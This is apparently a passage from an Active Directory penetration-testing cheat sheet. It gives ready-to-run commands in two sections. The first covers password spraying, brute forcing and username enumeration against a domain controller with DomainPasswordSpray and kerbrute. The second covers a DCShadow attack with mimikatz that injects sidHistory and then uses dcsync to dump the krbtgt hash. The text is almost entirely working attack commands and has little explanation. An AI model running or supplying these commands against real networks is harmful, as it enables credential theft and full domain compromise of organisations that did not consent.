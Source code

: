 ##  &nbsp;&nbsp;&nbsp;&nbsp; Bruteforce on ldap
<pre class="prettyprint linenums:"><code class="language-py"># Password spray
https://github.com/dafthack/DomainPasswordSpray
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -UserList users.txt -Domain domain-name -PasswordList passlist.txt -OutFile sprayed-creds.txt

# Password brute
./kerbrute_linux_amd64 bruteuser -d evil.corp --dc 192.168.1.2 rockyou.txt morph3

# Username brute
./kerbrute_linux_amd64 userenum -d evil.corp --dc 192.168.1.2 users.txt

# Password spray
./kerbrute_linux_amd64 passwordspray -d evil.corp --dc 192.168.1.2 users.txt rockyou.txt
</code></pre>


</code></pre>
##  &nbsp;&nbsp;&nbsp;&nbsp; DC Shadow

DC Shadow attack aims to inject malicious Domain Controlllers into AD infrastructure so that we can dump actual AD members.
![](/images/dcshadow.png)

<pre class="prettyprint linenums:"><code class="language-py">#Find sid for that user
wmic useraccount where (name='administrator' and domain='%userdomain%') get name,sid

#This will create a RPC Server and listen
lsadump::dcshadow /object:"CN=morph3,OU=Business,OU=Users,OU=ECORP,DC=ECORP,DC=local" /attribute:sidhistory /value:sid

# Run this from another mimikatz
lsadump::dcshadow /push

# After this unregistration must be done
# Relogin

lsadump::dcsync /domain:ECORP.local /account:krbtgt

# Now you must have krbtgt hash

https://attack.stealthbits.com/how-dcshadow-persistence-attack-works
</code></pre>
